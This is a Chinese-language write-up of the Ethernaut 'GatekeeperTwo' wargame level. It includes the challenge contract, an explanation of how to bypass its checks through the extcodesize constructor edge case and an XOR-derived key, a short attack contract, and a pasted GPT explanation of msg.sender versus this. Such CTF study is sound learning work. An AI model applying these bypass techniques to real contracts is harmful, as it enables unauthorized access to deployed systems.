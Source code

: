 # 14-GateKeeper Two

日期: 21/08/2024
难易: 简单
漏洞小结: 绕过require
简单明了: 一些edge case以及简单算法

# 问题描述

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

### **Things that might help:**

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

# 攻击思路

还是三个gate

- gateOne还是一样，要写合约去攻击，保证`tx.origin`和`msg.sender`不一样
- gateTwo的话用到了`extcodesize`函数，这个函数有个`edge case`，就是在constructor里面被call的话，会返回零
- gateThree的话是利用了`xor`的特性，`A^B=C implies A^C =B`
    - 需要注意最后的输入是bytes8
    - 需要注意调用的时候是通过攻击合约去调用，所以msg.sender需要改成address.this

# 攻击方式

```bash
contract attackGatekeeperTwo{
    constructor(){
        GatekeeperTwo gt = GatekeeperTwo(0x3023453F54becB528f10F5f8DF851A17b96b52b4);
        bytes8 gateKey = bytes8((uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max)) ;
        gt.enter(gateKey);
    }
}
```

# Ethernuat总结

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](mailto:0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).

# 小白的思考

比较ctf向，设略一下就可以了，感觉上没有很大的审计项目的意义，偏向于学习一些新的知识和概念

需要注意的点就是`msg.sender`改成了`this`，有点不理解，问了一下GPT

## `msg.sender` vs `this`

- `msg.sender` 是 Solidity 中一个全局变量，它表示当前调用合约的地址。当你在外部调用合约时，`msg.sender` 是外部账户或另一个合约的地址。
- `this` 是指当前合约本身，它返回合约的地址，并且是一个 `address` 类型。

### 为什么在 `gateThree` 中使用了 `this` 而不是 `msg.sender`？

在 `gateThree` 中，原代码使用了：

```solidity
solidityCopy code
require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);

```

- 这里的 `msg.sender` 是你调用 `enter` 函数的地址。在你的攻击合约中，由于调用是通过 `this`（当前合约实例）来进行的，因此这里的 `msg.sender` 会是攻击合约的地址。

为了计算正确的 `gateKey`，你需要基于调用合约的地址（即 `this`）来计算：

```solidity
solidityCopy code
bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);

```

这样确保 `gateKey` 是基于攻击合约地址计算出的正确值。

### 深入理解

在合约调用过程中，`this` 和 `msg.sender` 在某些场景下的作用是不同的：

- `this` 代表合约自身的地址，可以用于在内部进行与合约地址相关的操作。
- `msg.sender` 代表触发当前函数调用的直接调用者（可能是外部账户，也可能是其他合约），而不是合约自身。

当你要通过计算派生出一个值（如 `gateKey`），并且这个值依赖于当前合约地址时，使用 `address(this)` 是必要的。这确保了计算基于当前攻击合约的地址，而不是调用者的地址。

总结来说，使用 `address(this)` 是为了获取当前攻击合约的地址，使得计算出的 `gateKey` 正确匹配 `gateThree` 的检查逻辑。